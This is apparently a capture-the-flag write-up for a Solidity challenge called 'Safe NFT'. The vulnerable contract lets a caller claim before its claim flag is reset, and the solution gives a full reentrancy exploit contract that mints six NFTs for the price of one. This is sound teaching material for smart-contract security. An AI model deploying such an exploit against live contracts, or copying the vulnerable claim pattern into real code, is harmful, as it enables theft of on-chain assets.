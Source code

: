# Safe NFT

## Challenge

We get one contract for a NFT:

```
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.7;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC721/extensions/ERC721Enumerable.sol";

contract safeNFT is ERC721Enumerable {
    uint256 price;
    mapping(address=>bool) public canClaim;

    constructor(string memory tokenName, string memory tokenSymbol,uint256 _price) ERC721(tokenName, tokenSymbol) {
        price = _price; //price = 0.01 ETH
    }

    function buyNFT() external payable {
        require(price==msg.value,"INVALID_VALUE");
        canClaim[msg.sender] = true;
    }

    function claim() external {
        require(canClaim[msg.sender],"CANT_MINT");
        _safeMint(msg.sender, totalSupply()); 
        canClaim[msg.sender] = false;
    }
}
```

The goal is to claim multiple NFTs for the price of one

## Solution

Here we have a very simple reentrancy attack. THe _safeMint functionality calls back to our contract, which in the end lets us call back multiple times before the canClaim gets reset. We can write a simple exploit contract to exploit the vulnerability:

```
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.7;

import "./Chal.sol";

contract exploiter {

    int claims;
    safeNFT NFT_contract;

    constructor(address target_addr)
    {
        claims = 0; 
        NFT_contract = safeNFT(target_addr);
    }

    function attack() payable public
    {
        require(msg.value == 0.01 ether, "You need to send 0.01 ether man :("); // 10000000000000000 Wei

        NFT_contract.buyNFT{value: 0.01 ether}();
        NFT_contract.claim();
    }

    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) external returns (bytes4)
    {
        if (claims < 5)
        {
            claims += 1;
            NFT_contract.claim();
        }

        return this.onERC721Received.selector;
    }
}
```

Passing the contract address to this contract in the constructor and then running this contract, we can get 6 NFTs for the price of 1.

